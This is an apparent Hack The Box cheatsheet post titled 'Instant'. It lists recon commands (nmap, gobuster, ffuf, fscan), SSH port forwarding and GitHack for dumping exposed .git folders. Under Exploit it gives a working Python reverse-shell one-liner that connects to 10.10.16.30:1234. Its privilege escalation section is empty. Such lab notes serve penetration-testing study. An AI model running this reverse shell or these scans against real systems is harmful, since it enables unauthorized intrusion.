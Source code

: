 ```yaml
---
title : "Hack The Box - Instant"
author: imdang 🤞🤞
date: 2024-10-23 11:33:00 +0800
categories: [Cheatsheet]
tags: [nmap,gobuster,ffuf,jadx,linpeas,OSCP]
---
```


<!-- ![image](https://user-images.githubusercontent.com/59029171/139866885-bc8556d4-7979-4d42-9d4e-027c0900f245.png) -->

<!-- **Node is about enumerating an Express NodeJS application to find an API endpoint that discloses the usernames and password hashes. To root the box is a simple buffer overflow and possible by three other unintended ways.** -->

---

# Recon

## Scan

### Nmap

```console
nmap -sV -sC --min-rate=1000 -p- <IP> -o nmap
```

### Gobuster



```console
Dirsearch
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u <IP/DNS>
Break status code
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u <IP/DNS> -b <BREAK_STATUSCODE>
```

### ffuf

```console
Subdomain search
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H “Host: FUZZ.site.com” -u http://site.com
```

### fscan
Scan host in network
Shadow1ng/fscan (github.com)
```console
./fscan -h 172.0.0.1/24
```

### SSH Port Forwarding

```console
ssh -L <PORT IN LOCAL>:<IP>:<PORT IN SERVER> username@<IP SERVER>
```

# Exploit

### Python reverse shell

```console
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.30",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
### Stable reverse shell
```console
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### GitHack - Exploit ```.git``` 
 lijiejie/GitHack: Khai thác tiết lộ thư mục `.git` (github.com)
```console
Githack
python GitHack.py http://site.htb/.git/
```


# Privilege Escalation 

# Other Tools

If you find my articles interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/0xStarlight"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an OSCP?&emoji=&slug=0xStarlight&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>
